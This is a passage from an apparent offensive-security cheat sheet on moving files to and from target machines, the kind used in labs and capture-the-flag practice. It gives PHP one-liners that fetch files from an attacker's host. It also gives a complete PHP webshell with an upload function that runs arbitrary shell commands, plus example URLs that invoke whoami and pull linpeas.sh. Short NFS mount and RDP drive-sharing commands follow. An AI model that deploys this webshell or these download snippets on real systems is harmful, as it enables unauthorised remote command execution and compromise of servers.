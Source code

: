 Here you would serve the file in question via a HTTP server (see HTTP section). Replace the IP with your own obviously.

Another way:
```html
<!-- Download file via HTTP and file_put_contents() and file_get_contents() functions -->
<?php  file_put_contents("somefile.php", file_get_contents("http://10.10.14.21/somefile.php"));  ?>
```

Here is a webshell with build-in upload function, using the above:
```php
<?php
  if (isset($_REQUEST['upload'])) {
    file_put_contents($_REQUEST['upload'], file_get_contents("http://10.0.2.4/" . $_REQUEST['upload']));
  };
  if (isset($_REQUEST['cmd'])) {
    echo '<pre>' . shell_exec(urldecode($_GET['cmd'])) . '</pre>';
  };
?>
```

Replace the IP address with your own obviously.

Example usage: 

* `http://target.host/webshell.php?cmd=whoami`
* `http://target.host/webshell.php?upload=linpeas.sh`


## NFS

Show available shares on an NFS server:
```bash
showmount -e 192.168.0.42
```

Mount an NFS share:

```bash
mkdir /tmp/infosec
mount -t nfs 192.168.0.42:/someshare /tmp/infosec
```

Unmount:

```bash
umount /tmp/infosec
```

## RDP

```bash
mkdir /tmp/shareme
rdesktop 192.168.0.42 -r disk:share=/tmp/shareme
```

Once you log into an account on the remote machine you will find the shared directory in the file explorer under network places.
